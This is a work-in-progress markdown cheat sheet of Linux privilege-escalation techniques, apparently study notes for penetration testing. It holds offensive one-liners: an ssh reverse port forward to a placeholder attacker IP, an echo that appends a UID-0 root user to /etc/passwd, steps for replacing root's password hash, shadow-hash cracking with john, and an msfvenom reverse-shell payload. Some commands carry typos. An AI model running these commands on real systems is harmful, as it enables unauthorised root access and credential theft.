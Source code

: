 # Work in Progress

## automated scripts

linux smart enumeration: https://github.com/diego-treitos/linux-smart-enumeration
```
# print everything the script can gather and do not prompt for a password
./lse.sh -l 2 -i
```

Linenum - https://github.com/rebootuser/LinEnum
```
# export files to a directory and do thorough tests
./linenum.sh -t -e linenum
```

linpeas
linux exploit suggester

linux priv checker - https://github.com/linted/linuxprivchecker

beroot - https://github.com/AlessandroZ/BeRoot

unix -priv-checker - http://pentestmonkey.net/tools/audit/unix-privesc-check

## Survey

Kernel Version
```
uname -a

```
#### Networking 

Port Forwarding to your attacker station:
```
ssh -R <ATTACKER_PORT>:127.0.0.1:<SERVICE_PORT> <USERNAME>@<ATTACKER_IP>
```

## Techniques 

### Kernel Exploits 


Kernel Version
```
uname -a

```
Use the kernel version to find exploits
```
searchsploit linux kernel <VERSION_NUMBER> priv esc
```

Best to use linux-exploit-suggester-2 to get a more refined list:
```
perl linux-exploit-suggester-2.pl -k <VERSION_NUMBER>
```

#### Common exploit 

Dirty Cow complie:
```
gcc -pthread cow.c -o cow
```

### Service Exploits 

Services are programs that run in the background.  Exploiting a service running as root provides command execution as root 

show all processes running as root
```
ps aux | grep "^root"
```
 Obtain the version of the identified programs:
 ```
 <PROGRAM> --version
 <PROGRAM> -v
 
 # debian
 dpkg -l | grep <PROGRAM>
 
 # rpm systems
 rpm -ga | grep <PROGRAM>
 ```

Use searchsploit to find exploits for these programs.

### weak file permissions 

World Readable - means it can read by anyone 
world writeable - anyone can write to the file 

if etc/shadow is readable we can add a user to it

make the massword with the correct hash:
```
mkpasswd -m sha-512 <PASSWORD>
```
now replace the root users password hash with the one that you made.  now you can su to root!

if etc/passwd is readable we can add a user to it

The /etc/passwd historically contained user password hashes.
For backwards compatibility, if the second field of a user row in /etc/passwd
contains a password hash, it takes precedent over the hash in /etc/shadow.
If we can write to /etc/passwd, we can easily enter a known password hash for
the root user, and then use the su command to switch to the root user.

generate a password hash to be placed in the etc/passwd:
```
openssl passwd "password"
```
now add the password hash to the second filed in the etc/passwd file in place if the X for the root user


Alternatively, if we can only append to the file, we can create a new user but
assign them the root user ID (0). This works because Linux allows multiple entries
for the same user ID, as long as the usernames are different.

```
echo "<USERNAME>:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```


the x in the secod row means to look in the /etc/shadow file
- can delete the x which linux may interpret as there being no password


### Cracking passwords 

if the /etc/shadow file is readable 


root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
- password hash has his between the first and second colon (only copy that to a txt file for cracking)
- $6$ = SHA512
- 

Crack the hash using john
```
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## Reverse Shells 
```
msfvenom -p linux/x86/reverse_shell_tcp lhost= lport= -f elf -o rev_shell.elf
```

Native reverse shells:

reverse shell generator: https://github.com/mthbernardes/rsg 



